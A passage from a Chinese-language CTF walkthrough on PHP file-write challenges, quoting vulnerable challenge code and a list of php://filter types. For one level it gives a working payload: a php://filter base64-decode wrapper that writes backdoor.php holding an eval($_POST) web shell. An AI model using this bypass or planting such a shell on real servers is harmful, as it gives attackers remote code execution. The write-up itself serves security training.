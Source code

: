 ```php
function hello_ctf($filename,$data){
    if(preg_match("/flag|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i", $data)){
        die("WAF!");
    }
    file_put_contents($filename,$data);
}
```

正则同 Level 3 中一样,那么写入一个Base64字符串即可。

Payload：

**GET**：`?filename=php://filter/write=convert.base64-decode/resource=backdoor.php`

**POST**：`data=PD9waHAgZXZhbCgkX1BPU1RbJ2hlbGwnXSk7Pz4`

```php
backdoor.php : <?php eval($_POST['hell']);?>
```

### Level 11- 封装协议解析

死亡绕过前置关卡，最早来源于P牛2016年的博客文章：https://www.leavesongs.com/PENETRATION/php-filter-magic.html

不过由于PHP版本的更新，string.strip_tags 已经被弃用。

注：该关卡没有FLAG.

[【filter过滤器】](https://www.php.net/manual/zh/filters.convert.php)：

`string.rot13`

`string.strip_tags` 去除html、PHP语言标签 (本特性已自 PHP 7.3.0 起废弃)

`convert.base64-encode` 和 `convert.base64-decode`

`convert.iconv.<input-encoding>.<output-encoding>` 或 `convert.iconv.<input-encoding>/<output-encoding>`

```php
function helloctf($filter){
    $wrapper = "php://filter/read=".$filter."/resource=php://input";
    echo "This is what you got:"."<br>";
    readfile($wrapper);
}
```

### Level 11+ 死亡绕过

```php
function hello_ctf($filename,$data){
    if(preg_match("/flag|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i", $data)){
        die("WAF!");
    }
    file_put_contents($filename, "<?php die('GAME OVER!') ?>".$data);
}
```
